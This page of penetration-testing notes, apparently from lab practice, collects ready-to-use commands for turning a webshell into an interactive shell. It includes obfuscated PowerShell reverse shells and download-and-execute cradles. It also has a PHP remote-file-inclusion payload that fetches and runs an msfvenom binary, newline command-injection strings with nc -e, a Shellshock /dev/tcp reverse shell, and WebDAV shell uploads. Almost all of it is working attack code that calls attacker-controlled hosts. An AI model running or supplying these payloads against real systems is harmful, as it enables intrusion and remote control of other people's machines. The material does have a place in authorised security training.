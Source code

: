 ```yaml
---
description: nc -nlvp 4444
---
```


# Webshell to stable shell

{% embed url="https://www.revshells.com/" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/command-injection" %}

{% code title="obfuscated PS rev 1-Liner" overflow="wrap" %}
```powershell
${var}=New-Object Net.Sockets.TcpClient('192.168.0.69',4444);${stream}=${var}.GetStream();${buffer}=@();While($true){if(${stream}.DataAvailable){$bufferSize=${stream}.Read($buffer,0,${buffer}.Length);${msg}=(New-Object Text.ASCIIEncoding).GetString($buffer,0,${bufferSize});${command}=(Invoke-Expression -Command $msg 2>&1 | Out-String );${msg}=$command+'PS '+${Pwd}.Path+'>';${buffer}=(New-Object Text.ASCIIEncoding).GetBytes($msg);${stream}.Write($buffer,0,$msg.length);$stream.Flush()};Start-Sleep -s 1}
```
{% endcode %}

### `rev.ps`

{% code overflow="wrap" %}
```powershell
#rev-shell.ps
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.184",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#feed
python -m http.server 8080
```
{% endcode %}

{% code overflow="wrap" %}
```
#setup listener
nc -nvlp 443

#run webshell command
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.132:8080/rev.ps1')"

or

echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.129/rev.ps1") | powershell -noprofile
```
{% endcode %}

### PHP for RFI

{% code overflow="wrap" %}
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.119.138 -f elf -o k  

python -m http.server 80

/rev.php
<?php shell_exec("curl http://192.168.119.138/k > /tmp/k;chmod +x /tmp/k; /tmp/k");?>

http://10.11.1.35/section.php?page=http://192.168.119.138/rev.php
```
{% endcode %}

### PHP file inclusion

{% code overflow="wrap" %}
```

curl -s --data "<?php system('bash -i >& /dev/tcp/192.168.119.136/4444 0>&1');?>" "http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=php://input%00"

or shell_exec
```
{% endcode %}

### Modify request to limitation bypass `%0a`

{% code overflow="wrap" %}
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php

vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80

vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay

ip=127.0.0.1 %0a wget 192.168.119.148 %0a mv index.html rev.php %0a php rev.php&send=Ping+It%21
(cannot use - / symbols, so wget index.html disguised rev shell)
```
{% endcode %}

### Executing cgi / pearl reverse shell with RFI

<pre data-overflow="wrap"><code><strong>#after uploading the rev file (copy from kali webshells)
</strong><strong>http://10.11.1.141:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/var/tmp/rev.cgi
</strong></code></pre>

### Shellshock

{% code overflow="wrap" %}
```
curl -H "Cookie: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.119.125/4444 0>&1 &" http://10.11.1.71/cgi-bin/admin.cgi -s
```
{% endcode %}

### WebDav observed from nikto

{% code overflow="wrap" %}
```
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u user:pw

cadaver ip
```
{% endcode %}

#### Curl upload&#x20;

```

curl -T './tmp/file' 'http://192.168.64.122/'
curl -X PUT http://192.168.52.42:8080/shell.jsp/ -d @- < shell.jsp
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}
